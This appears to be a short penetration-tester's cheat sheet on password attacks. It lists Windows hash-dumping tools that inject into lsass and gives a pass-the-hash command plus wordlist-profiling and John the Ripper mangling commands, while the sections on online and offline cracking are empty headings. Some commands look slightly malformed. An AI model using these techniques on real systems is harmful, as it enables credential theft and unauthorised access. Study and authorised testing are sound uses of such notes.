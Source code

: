# Passwords

## Windows Tools
### fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

### wce.exe (Windows Credential Editor)
wce64.exe for x64

wce.exe for x86


### pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

### Crunch
See man page for examples

### Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

### Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt
```

John tricks

add 2 numbers to the end of every password

```
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

## Online Attacks

### Medusa

### Ncrack

### Hydra

## Offline Attacks

### Password Hashes

### Cracking Hashes

### LM/NTLM
